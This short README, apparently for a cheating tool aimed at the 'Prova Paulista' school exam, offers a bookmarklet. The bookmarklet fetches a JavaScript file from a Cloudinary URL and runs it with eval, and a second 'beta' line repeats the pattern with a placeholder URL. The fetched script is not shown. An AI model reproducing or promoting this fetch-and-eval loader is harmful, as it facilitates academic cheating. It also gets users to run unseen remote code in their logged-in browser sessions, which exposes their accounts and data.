 # 🚀 HCK - PROVA PAULISTA 

## Version Stable:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## Version Beta v2:
```js
javascript:fetch("NADA AINDA").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
